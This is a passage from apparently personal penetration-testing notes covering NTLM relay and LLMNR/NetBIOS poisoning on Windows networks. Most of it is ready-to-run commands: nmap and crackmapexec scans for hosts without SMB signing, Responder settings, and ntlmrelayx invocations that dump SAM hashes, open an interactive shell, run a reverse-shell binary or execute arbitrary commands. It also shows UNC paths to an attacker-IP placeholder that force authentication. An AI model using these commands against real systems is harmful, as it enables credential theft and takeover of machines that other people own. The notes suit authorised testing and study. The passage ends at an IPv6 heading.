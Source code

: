 *ntlmrelayx*, by default, without specifying a command, dumps sensitive info (SAM) of the target. Alternatively:
- get a shell - `sudo python3 ntlmrelayx.py -tf targets.txt -smb2support -i`
- custom binary execution - `sudo python3 ntlmrelayx.py -tf targets.txt -smb2support -e <reverse_shell.exe>`
- command execution - `sudo python3 ntlmrelayx.py -tf targets.txt -smb2support -c "<command>"`

### LLMNR & NetBIOS Poisoning

LLMNR and NBT-NS are two protocols enabled by default on Windows systems and their purpose is to support operating system when it is unable to resolve a "hostname" via DNS service or its local host file.

**Requirements**:
- SMB signing disabled on target machine
- user we are relaying NetNTLM must be local admin on the target machine

**Tools**:
- `nmap`
- `crackmapexec`
- [Responder](https://github.com/SpiderLabs/Responder)
- `ntlmrelayx.py` - *impacket*

**Steps**:
1. identify targets that do not require *SMB signing* ("*signing enable but not required*"):
	- `sudo nmap --script smb-security-mode.nse,smb2-security-mode.nse -p445 <IP target>`
	- `crackmapexec smb <IP target> --gen-relay-list targets.txt`
2. *Responder.py* setup:
	- *Responder.conf* editing:
		- `SMB = Off`
		- `HTTP = Off`
	- execution - `sudo python3 Responder.py -I <interface> -wdv`
3. *ntlmrelayx.py* setup:
	- `sudo python3 ntlmrelayx.py -tf targets.txt -smb2support`
4. ..*waiting for events to force NTLM authentication*..
	- ***with** code execution*:
		- `ls \\<ATTACKER IP>\share`
	- ***without** code execution*:
		- if we discover a file upload form in a webapp on Windows server we could try to insert a non-existing file with a UNC path such as `\\<ATTACKER IP>\share\nonexistent.txt`
		- if webapp supports upload via SMB, the server will authenticate to the SMB server of the Responder
5. by default, without specifying a command, dumps sensitive info (SAM) of the target. Alternatively:
	- get a shell - `sudo python3 ntlmrelayx.py -tf targets.txt -smb2support -i`
	- custom binary execution - `sudo python3 ntlmrelayx.py -tf targets.txt -smb2support -e <reverse_shell.exe>`
	- command execution - `sudo python3 ntlmrelayx.py -tf targets.txt -smb2support -c "<command>"`

## IPv6attacks

**Requirements**:
- IPv6 enabled
